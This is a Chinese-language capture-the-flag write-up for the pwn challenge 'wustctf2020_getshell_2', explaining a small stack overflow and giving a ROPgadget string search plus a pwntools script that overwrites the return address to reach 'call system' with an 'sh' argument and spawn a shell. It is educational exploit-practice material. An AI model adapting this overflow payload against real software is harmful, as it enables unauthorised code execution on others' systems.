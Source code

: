 ```yaml
---
title: 'wustctf2020_getshell_2'
date: 2024-01-06 13:00:00 +0800
categories: [ctf,pwn]
tags: [ROPgadgets,asm]
---
```

![image-20240106214446580](../assets/img/old_imgs/image-20240106214446580.png)

![image-20240106214457268](../assets/img/old_imgs/image-20240106214457268.png)

![image-20240106214720283](../assets/img/old_imgs/image-20240106214720283.png)

> `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.
